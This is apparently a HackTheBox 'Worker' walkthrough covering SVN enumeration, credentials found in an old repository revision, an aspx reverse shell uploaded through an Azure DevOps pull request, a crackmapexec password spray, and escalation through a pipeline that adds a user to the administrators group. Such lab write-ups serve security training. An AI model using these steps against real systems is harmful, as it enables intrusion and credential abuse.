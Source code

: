 ```yaml
---
title: Worker
author:
  name: kill5witch
  link: https://github.com/an9k0r
date: 2021-12-25 11:33:00 +0200
categories: [HackTheBox, Linux]
tags: [Linux, SVN, Azure, Apache Subversion, Azure DevOps, DevOps]
math: true
mermaid: true
image:
  src: /assets/images/2022-03-07-19-24-57.png
  width: 694
  height: 515
  alt: image alternative text
---
```

**Worker - Easy Box running on Linux. Enumeration through SVN. DevOps on Azure! :)**
# ENUMERATION
## NMAP
Let's start NMAP first:
```
Nmap scan report for 10.10.10.203
Host is up (0.034s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE  VERSION
3690/tcp open  svnserve Subversion

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 17 12:24:15 2021 -- 1 IP address (1 host up) scanned in 13.09 seconds
```

There is also port 80 running but for some reason didn't get scanned by NMAP. It's however nothing there so let's enumerate that SVN (subversion)
## SVN
```
luka@kali:~/htb/worker$ nmap --script svn-brute --script-args svn-brute.repo=/svn/ -p 3690 10.10.10.203
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-17 12:31 CET
Nmap scan report for 10.10.10.203
Host is up (0.034s latency).

PORT     STATE SERVICE
3690/tcp open  svn
| svn-brute:   
|_  Anonymous SVN detected, no authentication needed

Nmap done: 1 IP address (1 host up) scanned in 11.81 seconds
```

Subversion is repository like Github commit history just simpler and running on Apache. Link [https://en.wikipedia.org/wiki/Apache\_Subversion](https://en.wikipedia.org/wiki/Apache\_Subversion)

![](/assets/images/image (147).png)

So let's see what we can find:

```
svn ls svn://10.10.10.203/
```

![](/assets/images/image (148).png)

So let's read the moved.txt

![](/assets/images/image (149).png)

# EXPLOITATION

## SVN Enumeration (continued)

Add devops.worker.htb to /etc/hosts and try to connect:

![](/assets/images/image (150).png)

Without any password we cannot continue. There is also dimension.worker.htb but is just a static page.

Since SVN lets us see if there are any older versions let's do that (usinf -r 1)

![](/assets/images/image (151).png)

We can download those with checkout using -r argument

```
svn checkout -r 2 svn://10.10.10.203
```

There were some credentials found in deploy.ps1

![](/assets/images/image (153).png)

Using that credentials we can login to devops.worker.htb

![](/assets/images/image (154).png)

## Azure Dev Ops

Enumeration didn't bring much apart from finding more than repos in SmartHotel360 Project

There is a way to inject shell (aspx) to the repo and call that file available on that particular subdomain(alpha, spectral,...).

So let's upload shell:

![](/assets/images/image (155).png)

And commit

![](/assets/images/image (156).png)

Create pull request

![](/assets/images/image (157).png)

I had to add some work items (just randomly typing them) otherwise "complete didn't work"

If everything worked correctly, we should see the file (remember to visit the right repository!)

```
		curl http://spectral.worker.htb/win-rev-shell.aspx
```

Shell was popped

![](/assets/images/image (159).png)

# PRIVILEGE ESCALATION

## Manual Enumeration

As expected it is low privileged shell with some privileges!

```
c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool

c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

I didn't try different potatoes (rogue,Juicy) since that is usualy unintended way to escalate privileges.

There is other share on the system

![](/assets/images/image (160).png)

After searching for a while following file was found

![](/assets/images/image (162).png)

List of usernames/passwords was downloaded and will be used in test with crackmapexecs winrm module. I is slow but it works! :)

```
cat credz | tr -d " " | awk -F"=" '{print "crackmapexec winrm 10.10.10.203 -u "$1 " -p "$2 " --local-auth -x whoami"}'
```

The user that worked with that password spray attempt done above was robinsl

![](/assets/images/image (163).png)

There is not much that that user can do on the system but his credentials work for devops and it seems to have another project assigned.

![](/assets/images/image (164).png)

## Azure Dev Ops #2

Privilege escalation seems that has to be done almost same attack through Azure Dev Ops it will however be different. I couldn't find a way to interact with repos directly like before but there is another way to execute code - through pipelines.

Azure Repos Git > PartsUnlimited > Starter Pipeline

![](/assets/images/image (165).png)

Here we can add commands that will be triggered with whichever user has run the service (hopefully SYSTEM ;) ).

![](/assets/images/image (166).png)

&#x20;I've decided to add robinsl to administrators group since it is more persistent way of escalating the privileges as reverse shell.

![](/assets/images/image (167).png)

then delete pool and create a new branch.&#x20;

If everything has worked correctly user robinsl should have been added to "adminstrators" localgroup.

![](/assets/images/image (168).png)

And yes. It has worked!

![](/assets/images/image (169).png)